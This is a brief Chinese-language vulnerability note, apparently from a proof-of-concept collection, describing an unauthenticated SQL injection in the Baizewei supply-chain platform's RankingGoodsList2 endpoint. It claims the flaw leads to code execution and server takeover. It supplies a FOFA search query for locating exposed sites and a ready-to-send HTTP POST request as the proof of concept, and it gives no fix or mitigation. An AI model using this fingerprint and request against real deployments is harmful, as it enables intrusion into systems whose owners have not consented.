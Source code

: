 # 百择唯供应链存在RankingGoodsList2存在SQL注入漏洞

百择唯供应链存在RankingGoodsList2 SQL注入漏洞，未经身份验证的攻击者通过漏洞，执行任意代码从而获取到服务器权限。

## fofa

```javascript
body="/Content/Css/_SiteCss/"
```

## poc

```javascript
POST /Goods/RankingGoodsList2 HTTP/1.1
Host: 
Content-Length: 99
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

goodsTypeList%5B%5D=090501&goodsSortType=Recommend&ColumnName=%E5%90%8C%E7%B1%BB%E6%8E%A8%E8%8D%90
```

![ddd1da3ecfceda9da7b026bffc218972](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411211145704.png)
